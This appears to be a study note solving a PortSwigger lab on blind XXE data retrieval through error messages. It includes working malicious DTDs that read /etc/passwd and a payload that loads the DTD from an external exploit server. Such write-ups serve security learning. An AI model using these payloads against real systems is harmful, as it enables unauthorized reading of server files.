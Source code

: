 # Exploiting blind XXE to retrieve data via error messages

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

## Definition
An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
- Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
- Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

Invoking the malicious external DTD will result in an error message like the following:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Notes
This lab has a `Check stock` feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

**Original Request**
```http
POST /product/stock HTTP/1.1
...

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>5</productId><storeId>1</storeId></stockCheck>
```

**Malicious External DTD**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY &#x25; invoke SYSTEM 'file:///abc/%file;'>">
%wrapper;
%invoke;
```

**Malicious Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [
    <!ENTITY % lookup SYSTEM "https://exploit-0a0100930372ad83c0b8120a0157008e.web-security-academy.net/exploit">
    %lookup;
]>
<stockCheck>
    <productId>5</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Key Words
> xml, xxe, error, exfiltrate, entity